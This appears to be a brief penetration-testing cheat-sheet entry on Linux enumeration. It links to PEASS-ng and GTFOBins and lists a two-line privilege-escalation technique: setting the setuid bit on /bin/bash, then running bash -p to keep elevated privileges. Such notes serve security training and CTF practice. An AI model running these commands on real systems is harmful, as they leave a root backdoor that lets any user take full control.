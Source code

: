 # Enumeration

## Links

- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [GTFOBins](https://gtfobins.github.io)

## Privesc using bash

```sh
chmod +s /bin/bash
/bin/bash -p
```
